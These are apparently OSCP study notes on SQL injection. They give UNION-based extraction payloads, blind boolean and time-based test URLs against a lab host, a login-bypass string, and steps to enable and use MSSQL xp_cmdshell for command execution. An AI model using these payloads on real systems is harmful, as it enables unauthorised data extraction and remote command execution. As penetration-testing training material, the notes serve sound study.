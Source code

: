 ```yaml
---
aliases:
  - SQL Injection
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_application
  - web_app
  - sql_injection
  - sqli
author: Mehdi N Tehrani
creat_date: 2023-12-26
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```

# SQLi Types
## in-band
#in_band
when the vulnerable application provides the result of the query along with the application-returned value.
if this is the case, we should try UNION payloads to extract data from the db.
### Example
PHP code:
```php
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```
Attack:
```mysql
# To find out how many columns are being returned:
' ORDER BY 1-- //

# if 4 cols being returned, try to find out which are displayed
%' UNION SELECT database(), user(), @@version, null, null -- //

# get database, user accessing db for the app, and db version
' UNION SELECT null, null, database(), user(), @@version  -- //

# get table, columns, database name (table_schema)
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

#### Reference
[MySQL Information Schema](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html)
#mysql #information_schema

## Blind
Nothing gets displayed on the web app, but we need to infer from the results coming from the SQLi e.g. and error occurring or not, etc.
### boolean-based
#boolean_based
test for boolean-based SQLi:
```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

### time-based
#time_based
test for time-based SQLi
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```

# Payload types
- Union
- Error
- Blind
# MySQL
#mysql
## PHP
#php
```
user' OR 1=1 -- //
```


# MSSQL
#mssql #xp_cmdshell
Connect to MSSQL using *impacke-mssqlclient*
```
impacket-mssqlclient <user>:<pass>@<ip> -windows-auth
```

Enable *xp_cmdshell*:
```mssql
EXECUTE sp_configure 'show advanced options',1;
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell',1;
RECONFIGURE
```

Use *xp_cmdshell*:
```impacket-mssqlclient
> EXECUTE xp_cmdshell <command>

> execute xp_cmdshell 'whoami'
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL     
```

